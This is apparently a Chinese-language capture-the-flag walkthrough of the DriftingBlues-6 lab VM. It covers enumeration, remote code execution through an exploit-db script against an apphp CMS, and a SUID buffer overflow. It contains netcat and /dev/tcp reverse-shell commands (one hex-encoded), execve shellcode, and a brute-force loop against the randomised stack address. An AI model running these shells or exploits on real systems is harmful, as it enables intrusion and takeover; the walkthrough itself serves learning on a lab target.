

# 前言

靶机：`DriftingBlues-6`，IP地址`192.168.1.66`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`


# 信息收集

## 使用nmap扫描端口


## 网站探测

访问80端口，这或许就是CMS


使用`whatweb`探测

```shell
whatweb http://192.168.1.66
```


使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具进行目录爆破

```shell
gobuster dir -u http://192.168.1.66 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```


访问`README.txt`，确定CMS及版本


# 漏洞寻找

访问一圈扫描到的目录，没发现有什么信息，使用`searchsploit`测试有无对应版本的历史漏洞

```shell
searchsploit apphp
```


有一个远程代码执行的`py`脚本，尝试使用该脚本进行测试，注意，这里需要的是`python2`的环境

```shell
locate 33070.py
cp /usr/share/exploitdb/exploits/php/webapps/33070.py ./ 
chmod +x 33070.py

python2 33070.py http://192.168.1.66/index.php
```

# 漏洞利用

该脚本首先会进行测试，如`phpinfo`信息等，用法

```shell
Usage: python 33070.py http://target/blog/index.php
```

执行脚本后发现测试出一个`php`文件中的信息，这个脚本直接通过浏览器访问，是没有任何信息，但是这里就可以发现

用户名`clapton`和密码`yaraklitepe`


测试命令是否能被执行，发现确实可以


# 靶机内信息收集

查看靶机内的用户


为了后续方便，还是获取一个终端为好，不过这里只是命令执行，所以需要进行反弹shell。

我这里是测试发现直接使用`bash`反弹不成功，然后使用的`nc`，当然反弹的方法很多，`https://forum.ywhack.com/shell.php`

```shell
#kali开启监听
nc -lvvp 9999

#靶机把bash反弹
nc -e /bin/bash 192.168.1.16 9999
```


然后使用`python`获取一个终端，注意，这里是`python2`，因为之前使用命令测试安装的版本

```shell
dpkg -l | grep python
或者
compgen -c | grep python  //靶机没有这个命令
```


既然有用户`clapton`，与前面收集的连接数据库的一样了，测试是否一码多用，成功


返回其主目录查看，发现一个SUID的文件，剩下的两个，一个`flag`，一个内容说缓冲区溢出是这个方法


使用`file`知道是可执行文件，但是无法知道其内容，使用`python`开启简易的`http`，然后下载到`kali`中

这里因为`python`是2.x版本，所以与3.x开启不一样

```shell
python -m SimpleHTTPServe 9999
```

使用`strings`也没发现调用命令等，不过发现一些信息，收集一下


# 缓冲区溢出提取

之前查看`note`时，提示缓冲区溢出，那么进行处理。

我这里之前因为打过哈利波特的一个靶场，涉及到缓冲区溢出，所以大概知道流程

首先需要关闭`kali`中的`alsr`功能

`alsr`是内存地址随机化的安全技术，如若不关闭，会导致内存地址一直变化，无法确定关键点（缓存溢出的位置）

```shell
cd /proc/sys/kernel
echo 0 > randomize_va_space
```


可以使用`edb-debugger`安装即可，或使用`gdb`

输入命令`edb`打开图形化界面进行调试

首先把可执行文件加入到调试器中，然后选择打开`input`，然后上传多个A进行测试，看是否存在溢出，这里生成300个A测试

打开`input`文件，然后把生成的字符写入


然后进行执行调试，发现最终提示溢出


可以看到`EIP`和`ESP`都是A，EIP是进行跳转执行指令地址的，ESP是指令寄存处


那么这时候测试其偏移量为多少，使用`msf`生成无规律的字符

```shell
msf-pattern_create -l 600
```


然后把这一串字符，复制，与上面一样，在打开文件时，写入


再使用`msf`查看这个字符所处的位置

```shell
msf-pattern_offset -l 600 -q 41376641
```


OK，确定偏移量为171，那么从172开始的四个字符就是EIP的地址，也是需要重点关注的，并且再测试确实后面跟着的就是ESP中的内容。

下面就是需要寻找到ESP的地址，方便在覆盖EIP时，确保地址是ESP的地址，这么就可以在ESP中写入反弹命令

不过，这里一直使用的图形化界面`edb`，也要使用`gdb`，毕竟有些时候条件有限，所以这个工具也要会用

> 这里可以在`kali`中继续测试，不过我这里为了省时间，在靶机内测试，因为靶机内可以使用gdb，并且如果在kali中处理，还有一些环境问题需要解决。

下面在靶机内使用`gdb`测试，因为已经知道偏移量等，这里直接获取`ESP`地址

```shell
gdb input
(gdb)r $(python -c 'print("A"*300)')
(gdb)x/s $esp
```


获取到地址`0xbfae41b0`，这时候就可以进行构造`payload`，因为这里是小端序字节，所以地址需要倒写`\xb0\x41\xae\xbf`


```shell
$(python -c 'print("A"*171+"\xb0\x41\xae\xbf"+"\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x36\x2f\x38\x38\x38\x38\x20\x30\x3e\x26\x31\x27")')
```

再次构造后，把上面的语句进行测试，可以看到确实是小端序吧，并且发现`ESP`地址改变，说明靶机内的`alsr`是开启的，地址就会动态变化


那就不可能一次就中，说明这里可能需要多次，那么就写一个循环，注意，这里是一行，也就是可以直接输入，如要多行，可能需要用到EOF等

但是这里的脚本还是不行，测试发现使用`msfvenom`生成的是反弹`shell`，并非是其缓冲区溢出，这个个人不是很熟悉，所以借取网上的wp，代码这样的，不过这段代码我是不理解其含义，后续再学习`\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80`

结合前面的，把循环加上就是这样的构造，这里的ESP地址改变，是因为测试几遍后重新获取的

```shell
for i in {1..10000}; do (./input $(python -c 'print("A"*171+"\x70\x3f\xf8\xbf"+"\x90"*32+ "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')); done
```

直接在终端运行，等待一会，提取成功




# 总结

1. 考察对于一些CMS的历史漏洞寻找并利用
2. 考察对于缓冲区溢出的掌握，以及ESP、EIP，偏移量等


